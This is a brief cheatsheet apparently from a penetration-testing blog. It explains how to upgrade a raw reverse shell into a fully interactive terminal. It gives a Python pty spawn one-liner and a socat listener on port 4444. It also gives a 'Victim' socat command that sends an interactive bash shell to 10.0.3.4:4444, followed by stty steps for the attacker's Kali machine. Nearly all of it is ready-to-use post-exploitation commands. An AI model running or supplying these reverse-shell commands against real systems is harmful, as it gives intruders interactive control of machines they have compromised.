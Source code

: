 tl;dr cheatsheet

Cheatsheet commands:

# Using Python for a psuedo terminal
```
python -c 'import pty; pty.spawn("/bin/bash")'
```


# Using socat

## Listener:
```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

## Victim:
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

Using stty options


# In reverse shell
```
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
```

# In Kali
```
$ stty raw -echo
$ fg
```

# In reverse shell
```
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

Any other cool techniques? Let me know in the comments or hit me up on twitter.

Enjoy! -ropnop
